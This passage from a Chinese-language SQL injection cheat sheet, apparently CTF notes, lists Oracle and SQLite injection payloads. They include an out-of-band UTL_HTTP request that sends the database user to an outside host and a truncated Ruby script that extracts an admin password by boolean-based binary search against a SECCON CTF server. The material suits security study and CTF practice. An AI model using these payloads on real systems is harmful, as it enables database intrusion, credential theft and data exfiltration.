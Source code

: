     - `SELECT OWNER, TABLE_NAME, COLUMN_NAME FROM ALL_TAB_COLUMNS`
- Union Based
    - Column型態必須相同
    - 可用`NULL`來避免
    - `UNION SELECT 1, 'aa', null FROM dual`
- Error Based
    - `SELECT * FROM news WHERE id=1 and CTXSYS.DRITHSX.SN(user, (SELECT banner FROM v$version WHERE rownum=1))=1`
- Out of band
    - `UTL_HTTP.request('http://kaibro.tw/'||(select user from dual))=1`

## SQLite

- 子字串：
    - `substr(“abc",1,1)   =>   'a'`
- Ascii function:
    - `unicode('d') => 100`
- legth
    - `length('ab') => 2`
- Concatenation
    - `||`
    - `'a' || 'b' => 'ab'` 
- Time Delay
    - `randomblob(100000000)`
- 空白字元
    - `0A 0D 0C 09 20`
- Case when
    - SQLite沒有`if`
    - 可以用`Case When ... Then ...`代替
    - `case when (條件) then ... else ... end`
- 註解
    - `--`
- 爆表名
    - `SELECT name FROM sqlite_master WHERE type='table'`
- 爆表結構(含Column)
    - `SELECT sql FROM sqlite_master WHERE type='table'`
- Boolean Based: SECCON 2017 qual SqlSRF
```ruby
# encoding: UTF-8

# sqlite injection (POST method) (二分搜)
# SECCON sqlsrf爆admin密碼 
require 'net/http'
require 'uri'

$url = 'http://sqlsrf.pwn.seccon.jp/sqlsrf/index.cgi'
$ans = ''

(1..100).each do |i|
    l = 48
    r = 122

    while(l <= r)
        #puts "left: #{l}, right: #{r}"
        break if l == r

        mid = ((l + r) / 2)
        $query = "kaibro'union select '62084a9fa8872a1b917ef4442c1a734e' where (select unicode(substr(password,#{i},#{i})) from users where username='admin') > #{mid} and '1'='1"
        
        res = Net::HTTP.post_form URI($url), {"user" => $query, "pass" => "kaibro", "login" => "Login"}
        
        if res.body.include? 'document.location'
```